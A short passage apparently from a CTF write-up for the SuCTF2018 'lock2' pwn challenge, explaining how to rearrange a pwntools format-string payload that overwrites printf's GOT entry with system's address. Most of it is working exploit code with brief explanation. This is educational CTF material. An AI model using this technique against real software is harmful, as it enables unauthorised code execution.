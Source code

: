 
```python

## modify printf_got

payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')

## get all the addr

addr = payload[:32]

payload = '%32d' + payload[32:]

offset = (int)(math.ceil(len(payload) / 8.0) + 1)

for i in range(6, 10):

    old = '%{}$'.format(i)

    new = '%{}$'.format(offset + i)

    payload = payload.replace(old, new)

remainer = len(payload) % 8

payload += (8 - remainer) * 'a'

payload += addr

sh.sendline(payload)

sh.recv()

```



Fmtstr\_payload directly get the payload will put the address in front, and this will lead to &#39;\x00&#39; truncation of printf (**About this problem, pwntools is currently developing an enhanced version of fmt\_payload, it is estimated that it will be developed soon **). So I used some tricks to put it behind. The main idea is to place the address in the 8 byte alignment and modify the offset in the payload. have to be aware of is


```python

offset = (int)(math.ceil(len(payload) / 8.0) + 1)

```



This line gives the offset of the modified address in the formatted string. The reason for this is that no matter how it is modified, the more characters in the order of &#39;%order$hn&#39; will not be greater than 8. Specific can be deduced by yourself.


### Title
- SuCTF2018 - lock2 (The organizer provided the docker image: suctf/2018-pwn-lock2)